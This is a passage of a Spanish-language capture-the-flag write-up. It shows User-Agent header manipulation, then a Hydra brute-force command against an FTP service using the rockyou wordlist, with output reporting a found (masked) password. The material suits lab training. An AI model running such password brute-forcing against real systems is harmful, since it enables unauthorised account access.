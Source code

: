 ![web_mensaje1](/assets/img/sample/web1.png)

Para cambiar nuestro user-agent podemos usar burpsuite o una extensión al navegador. La solicitud de cabecera del user-agent contiene una cadena característica que permite identificar el protocolo de red  que ayuda a descubrir  el tipo de aplicación, sistema operativo, proveedor del software o la versión del software de la petición del agente de usuario.
Al cambiar nuestro user-agent a C, muestra el siguiente mensaje:

![web_mensaje2](/assets/img/sample/web2.png)

## Explotación

Seguidamente podemos hacer un brute force al servicio ftp en el puerto 21 con el usuario chris. Por ejemplo con la herramienta hydra, con la wordlist rockyou.txt.

```terminal
kali@kali:~$ hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.94.186 ftp
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-12-03 13:42:30
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.94.186:21/
[STATUS] 230.00 tries/min, 230 tries in 00:01h, 14344169 to do in 1039:26h, 16 active
[21][ftp] host: 10.10.94.186   login: chris   password: *******
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-12-03 13:43:43
```
